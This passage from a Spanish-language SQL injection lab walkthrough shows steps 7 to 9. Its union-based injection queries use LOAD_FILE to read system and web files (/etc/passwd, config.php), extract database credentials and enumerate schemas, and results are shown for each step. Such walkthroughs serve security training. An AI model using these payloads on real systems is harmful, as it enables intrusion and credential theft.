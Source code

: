 **Explicación**: Probar `LOAD_FILE()` con `/etc/passwd` valida la capacidad de lectura remota de archivos del sistema.

---

## Paso 7: Intento de leer `search.php`

**Query**:

```sql
' UNION SELECT 1, LOAD_FILE('/var/www/html/search.php'), 3, 4, 5-- -
```

**Resultado**:

Columna vacía (sin salida).

**Explicación**: Ausencia de salida indica que el archivo existe pero no es legible por el usuario de la base de datos.

---

## Paso 8: Leer `config.php` para credenciales

**Query**:

```sql
' UNION SELECT 1, LOAD_FILE('/var/www/html/config.php'), 3, 4, 5-- -
```

**Resultado**:

```php
'127.0.0.1', 'DB_USERNAME' => 'root', 'DB_PASSWORD' => 'password', 'DB_DATABASE' => 'ilfreight'
```

Credenciales: **root:password** sobre base **ilfreight**.

**Explicación**: Extraer el archivo de configuración revela credenciales que permiten conexiones directas a la base de datos.

---

## Paso 9: Obtener todas las bases de datos

**Query**:

```sql
' UNION SELECT 1, schema_name, 3, 4, 5
  FROM information_schema.schemata-- -
```

**Resultado**:

```
ilfreight	3	4	5
backup	3	4	5
...
```
